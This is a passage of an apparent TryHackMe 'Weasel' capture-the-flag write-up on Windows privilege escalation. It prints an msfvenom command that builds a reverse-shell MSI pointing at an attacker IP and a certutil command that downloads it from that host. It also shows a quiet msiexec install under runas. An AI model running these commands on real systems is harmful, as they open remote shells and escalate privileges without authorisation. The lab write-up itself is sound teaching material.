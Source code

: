 ![image16.png](/assets/img/posts/THM-Weasel/image16.png)

No good, back to `winpea`

![image17.png](/assets/img/posts/THM-Weasel/image17.png)

# Window Privilege Escalation

Generate a .msi binary with `msfvevon` then launch a server from our machine.

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.13.47.211 lport=6666 -f msi -o setup.msi

python3 -m http.server
```

### On Window

```bash
certutil -urlcache -f http://10.13.47.211:8000/setup.msi setup.msi

runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Desktop\setup.msi

Enter the password: wUq[Redacted]aUn
```
